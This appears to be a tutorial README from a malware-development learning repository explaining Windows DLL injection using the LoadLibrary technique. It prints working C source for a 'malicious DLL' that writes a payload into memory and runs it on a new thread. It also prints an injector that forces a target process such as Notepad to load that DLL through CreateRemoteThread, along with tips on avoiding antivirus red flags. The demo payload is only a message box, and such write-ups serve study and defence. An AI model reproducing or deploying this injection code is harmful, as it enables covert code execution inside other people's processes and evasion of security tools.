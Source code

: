 # DLL Injection (LoadLibrary Technique)

DLL injection is a technique used to inject a dynamic-link library (DLL) into the address space of a running process. This method allows the injected DLL to execute code within the context of the target process, granting it access to the process's memory, resources, and functionalities.

The module contains two main source files:
- `injectme.c`: This contains the source code for the malicious DLL
 
- `injector.c`: This contains the code for the program which injects our malicious DLL into the remote process.

## The DLL Source

First, we have our standard `DllMain` which contains the following code:

```c
BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved ) {
    switch ( fdwReason ) {
        case DLL_PROCESS_ATTACH:
            int result = injectme(); 
            break;
        default:
            break;
        }
    return TRUE;
}
```

The `DllMain` is simple: whenever the DLL is loaded into the process's memory (`DLL_PROCESS_ATTACH`) it calls the `injectme()` function which is responsible for running our Message Box payload. 

The `injectme()` function has the following code:
```c
extern __declspec(dllexport) int injectme(void) {
    void * pAddress;
    DWORD oldprotect = 0;
    pAddress = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(pAddress, payload, payload_len);
    BOOL retval = VirtualProtect(pAddress, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    HANDLE hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) pAddress, 0, 0, 0);
    int _result = WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    return 0;
}
```
The `injectme()` function is where the magic happens. We use the `extern __declspec(dllexport)` declaration to indicate that the DLL exports this function. 

> Since the DLL will be loaded in the process's address space itself, we can use `VirtualAlloc()` and `CreateThread()` instead of `VirtualAllocEx()` and `CreateRemoteThread()`. 

We begin with allocating memory for our payload with `VirtualAlloc()`, like we did with `VirtualAllocEx()` during **Shellcode Injection**. However, one noticable difference is that: the permission of the memory region has been set to `PAGE_READWRITE` because we need to write our payload to it. 

> In case of Shellcode Injection, the call to `WriteProcessMemory()` makes the region temporarily writeable for us and when the write operation is done, it restores the memory protection to its original state, but in this case, we gotta do this on our own and make sure the memory region is writeable. [See: [this Microsoft DevBlog](https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415)]

Once the memory has been allocated, we use `RtlMoveMemory()` to copy the payload over to the allocated memory region, and then proceed to change the memory protection to `PAGE_EXECUTE_READ` using `VirtualProtect()`. 

> Note that we could have used `VirtualAlloc()` with `PAGE_EXECUTE_READWRITE` in the first place and skipped calling `VirtualProtect()` altogether. However, having `RWX` permission on a memory region sets off major red flags for AV engines.

Finally, we use `CreateThread()` and set the thread function to run our payload and wait till it finishes execution with `WaitForSingleObject()` just like in the **Shellcode Injection** example. Once the Thread finishes execution, we close the thread handle and return the back to the `DllMain` function. 

This concludes the DLL source.

## The Injector Source

Now comes the injector, which loads the malicious DLL into the target process's memory. The `main()` function looks familiar as such:

```c
int main() {
    DWORD pid = find_pid(TARGET);
    printf("[i] %s: %d\n", TARGET, pid);
    int result = inject_dll_ll(pid);
    printf("[i] Injection Complete!\n");
    return 0;
}
```

We find the Process ID for the target process using `find_pid()` and pass it to the `inject_dll_ll()` function where the injection takes place. The `inject_dll_dll()` function looks like this:

```c
int inject_dll_ll(DWORD pid) {
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    HANDLE hModule = GetModuleHandle("Kernel32.dll");
    PTHREAD_START_ROUTINE pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress(hModule, "LoadLibraryA");
    CloseHandle(hModule);
    PVOID pAddr = VirtualAllocEx(hProcess, NULL, sizeof(DLL_PATH), MEM_COMMIT, PAGE_READWRITE);
    BOOL result = WriteProcessMemory(hProcess, pAddr, (LPVOID)DLL_PATH, sizeof(DLL_PATH),  NULL);
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pLoadLibrary, pAddr, 0, NULL);
    int _result =  WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return 0;
}
```
> Here, the `DLL_PATH` macro expands to the full path of the malicious DLL on the system

For injecting our DLL into the target process, we would use the `LoadLibraryA()` function from `kernel32.dll` to load our DLL into the target process's virtual memory. This method, however has certain drawbacks:
- It registers the DLL with the process so it might set off some flags to alert defenders
- If a DLL has already been loaded once with `LoadLibraryA()`, it would not trigger execution on subsequent attempts. 

With that in mind, lets walk through the code. First, we open a open a handle to the target process(`hProcess`). Then, we dynamically resolve the address of `LoadLibraryA` function from `kernel32.dll` as such:

- First, we use `GetModuleHandle()` to retrieve a module handle for the `kernel32.dll`, because thats where `LoadLibraryA()` function is defined.
- Then, we use this handle to the module(`hModule`) along with `GetProcAddress()` to fetch the address of the `LoadLibraryA()` function.
- Once we have the address to `LoadLibraryA()`, we can go ahead and free the module handle(`hModule`)

Next up, we need to allocate memory with `VirtualAllocEx()` in the remote process's virtual address space to store the full location of the DLL(`DLL_PATH`). This time around, we need to set the permission for the memory region as `PAGE_READWRITE` because we need to write our Dll's path (`DLL_PATH`) to it but there is no execution happening in the memory region.

Once the memory has been allocated, we use `WriteProcessMemory()` to copy the full DLL path into the process's memory. Finally, we call `CreateRemoteThread()`, but this time, we pass the previously acquired address of `LoadLibraryA()`(`pLoadLibrary`) as the thread function and pass the address of memory location in the remote process where the full path to the DLL is stored(`pAddr`) as the variable to the thread function, and start the remote thread. 

This essentially forces the remote process to execute the following instruction:

```c
LoadLibraryA("C:\\Path\\To\\injectme.dll")
```

As soon as the instruction is executed and the DLL is attached to the process, the payload is executed. We skip the wait stage for the thread by setting the timeout interval to `0` in `WaitForSingleObject()` and return as soon as exectuion finishes.

When compiled and run, we should have our `Hello World!` message box popup from the target process.

![](./imgs/dll_ll_0.png)

If we examine the target process(`Notepad.exe`) with a tool like `Process Hacker`, we should see our malicious DLL in the list of modules loaded by the process.

![](./imgs/dll_ll_1.png)


